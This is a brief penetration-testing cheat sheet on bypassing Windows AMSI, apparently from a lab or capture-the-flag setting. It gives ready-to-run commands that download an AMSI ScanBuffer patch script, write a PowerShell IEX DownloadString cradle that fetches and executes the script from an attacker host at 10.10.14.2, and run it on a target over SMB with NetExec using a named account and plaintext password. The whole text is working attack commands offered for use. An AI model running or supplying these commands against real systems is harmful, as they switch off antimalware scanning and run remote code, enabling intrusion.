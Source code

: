 # Cheat Cheets

## AMSI Bypass

### **Modified Amsi ScanBuffer Patch**

```
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/shantanukhande-amsi.ps1 -q
```

```rust
 echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shantanukhande-amsi.ps1');" > amsibypass.txt
```

```rust
 nxc smb 10.129.204.178 -u robert -p 'Inlanefreight01!' -X '$PSVersionTable' --amsi-bypass amsibypass.txt
```
